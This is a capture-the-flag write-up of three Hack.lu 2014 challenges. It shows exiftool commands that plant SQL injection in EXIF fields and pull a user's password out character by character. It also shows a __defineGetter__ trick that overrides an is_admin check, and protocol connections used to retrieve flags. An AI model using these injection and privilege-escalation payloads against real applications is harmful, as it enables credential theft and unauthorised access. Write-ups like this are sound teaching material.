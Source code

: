 
Hack.lu 2014 Hacking Contest Write-Up
=====================================
Michael Denzel <m.denzel@cs.bham.ac.uk>
v 1.0, 2014-10-23
:toc:
:listdef-labeled.style: horizontal
:listdef-labeled2.style: horizontal

Challenge 9 - "ImageUpload" (Web)
---------------------------------

Description
~~~~~~~~~~~

In the Wild Wild Web, there are really bad guys. The sheriff doesn't know them all. Therefore, he needs your help.
Upload pictures of criminals to this site and help the sheriff to arrest them.
You can make this Wild Wild Web much less wild!!!

Pictures will be deleted on regular basis!

''''''''''''''''''''''''''''''''

Solution
~~~~~~~~

ImageUpload was a web based challenge. The website consisted of a Login page and an upload
section which accepted pictures (jpg/jpeg). After uploading a picture some
meta-information of the exif-header of images were displayed (height, width, author,
manufacturer, model).

[[imageupload_pic]]
image::./imageupload.png[title="ImageUpload Website",align="center",width="60%"]

After unsuccessfully uploading a php shell (as shell.jpg), we focused on the exif data.

There is a tool in Linux to modify this data:

.shell-code
[source, shell]
-------------------------------------
exiftool -<EXIF-FIELD>=<DATA> picture.jpg
-------------------------------------

Our first guesses were PHP and JavaScript since the data gets displayed on the website (see
<<imageupload_pic>> below the picture).

But neither PHP nor JavaScript worked.

We then realised that the website shows an error message, when putting an apostrophe `'`
into the exif data. This means the website is vulnerable to SQL injection attacks.

Unfortunately, it turned out that the chosen exif field was integers-only (other fields were not
displayed correctly) and we had to deal with outputting numbers only.

For the database we guessed the layout as a table "users" with columns "password" and "name".

To prove it, we counted the password column in table users:

.SQL injection
[source, shell]
-------------------------------------
exiftool -model="' + (SELECT COUNT(password) FROM users) + '" logo.jpeg
-------------------------------------

The resulting output "2" showed us that
- table users exists
- column password exists
- there are two users

We further guessed one user as "sheriff" at the Login page and confirmed that column "name"
exists, too.

To output the sheriff's password in numbers we iterated over the password and printed the ascii
representation of the character. E.g. for the first character in ascii we queried the following:

.final attack string
[source, shell]
-------------------------------------
exiftool -model="' + (SELECT ASCII(SUBSTR(password, 0, 1)) FROM users WHERE name = 'sheriff') + '" logo.jpeg
-------------------------------------

We retrieved the sheriff's password as "AO7eikkOCucCFJOyyaaQ" and were able to login to retrieve
the flag `flag{1_5h07_7h3_5h3r1ff}` for 200+70 points.

(joint work Andreea, Joe, Mike)



Challenge 11 - "Objection" (Web)
--------------------------------

Description
~~~~~~~~~~~

This guard talks a weird dialect. And why does he talk in such a complicated way? link:./objection_4966674d17ff296939c0e3dfccfe87ed.co[Download]

nc wildwildweb.fluxfingers.net 1408

''''''''''''''''''''''''''''''''

Solution
~~~~~~~~

We were able to translate the code into JavaScript using LiveScript: link:./objection.js[objection.js]

When looking at the code, the following line is vulnerable.

.vulnerable line in JavaScript
[source, javascript]
-------------------------------------
if (typeof client_context[funcname] !== 'function') {
	return con.write("error: unknown function " + funcname + "\n");
}
-------------------------------------

It only checks if the function `funcname` exists. But this also includes inherited functions
of the object `client_context` like e. g. `toString()`.

We, therefore, tried to redefine functions using `eval()`, lamdba-functions, `__defineSetter__`
and succeeded with `__defineGetter__`.

`__defineGetter__(name, function)` overwrites a label with a function and makes it into a getter.
The resulting "function" can be used as a normal variable:

.example code
[source, javascript]
-------------------------------------
var finite = {}
finite.__defineGetter__("monkeys", function(){return "monkeys rock!";}
console.log(finite.monkeys) //notice the missing brackets - not: finite.monkeys()
//prints "monkeys rock!" to the console
-------------------------------------

The only problem is that we do not control the second parameter. The function is
given in the code:

.attacked part of the JavaScript code
[source, javascript]
-------------------------------------
client_context[funcname](args, function(it){
	return con.write(it + "\n");
});
-------------------------------------

But, since it usually succeeds to write to the connection, it returns true!

So we used `__defineGetter__` to overwrite the variable `is_admin` in order to gain admin
privileges.

.attack
-------------------------------------
hello!
__defineGetter__ is_admin
get_token
undefined
The current token is flag{real_cowboys_dont_use_object_create_null}
-------------------------------------

`__defineGetter__ is_admin` overwrites the variable `is_admin` with a getter which uses the
next argument - here: `function(it){return con.write(it + "\n");}` - and always returns true.

The flag was afterwards retrieved for 150+80 points using `get_token`.

(joint work Chris, Mike)



Challenge 31 - "Wanted: Translator" (Misc)
------------------------------------------

Description
~~~~~~~~~~~

We are in desperate need of a translator who understands the languages of varoius Indian tribes. We already know how to speak to the Apache tribe via HTTP but we have some stuff missing. We offer 5$ per successfully translated language.

(That means you can send us 7 solutions to this challenge and will receive 5 points for each.)

 SMTP
 GOPHER
 POP3
 FINGER
 TFTP
 IRC
 NNTP

''''''''''''''''''''''''''''''''

Solution
~~~~~~~~

We realised that there was a tftp server running since it was possible to connect with the
following command.

[source, shell]
-------------------------------------
tftp wildwildweb.fluxfingers.net
-------------------------------------

Afterwards we used the default ports and programs to connect to the other protocols:

SMTP
^^^^
- connect to port 25 with telnet 
- send mail to `fluxfingers@rub.de`

GOPHER
^^^^^^
- connection: `telnet wildwildweb.fluxfingers.net gopher`
- send `\r\n`
- reconnect
- send `0\r\n`

POP3
^^^^
- `USER flux`
- `PASS flux`
- `LIST`
- `RETR 1`

FINGER
^^^^^^
- connected to port 79 using telnet
- send `\r\n` to get user list
- reconnect
- send `r00t\r\n` to get details for the user r00t

TFTP
^^^^
The port was open but TFTP does not support a list command, so we wrote a script.
Guessing the name of the file is another solution.

.perl script
[source, perl]
-------------------------------------
perl -MNet::TFTP -e '$tftp = Net::TFTP->new("wildwildweb.fluxfingers.net"); $tftp->get("flag", \*STDOUT);'
-------------------------------------

.connection with tftp
[source, shell]
-------------------------------------
tftp wildwildweb.fluxfingers.net
tftp> get flag
-------------------------------------

link:./tftp.txt[Here] is the file, including a bonus text adventure.

IRC
^^^
- connected to port 6667
- listed the channels with /list
- joined channel #flagchannel
- send a private message to flagbot.

NNTP
^^^^
- connection: `telnet wildwildweb.fluxfingers.net nntp`
- `GROUP apache.chitchat`
- `NEXT`
- `ARTICLE`

5 points per challenge makes 35 points in total.

(joint work Chris, Joe, Mike, Sam)

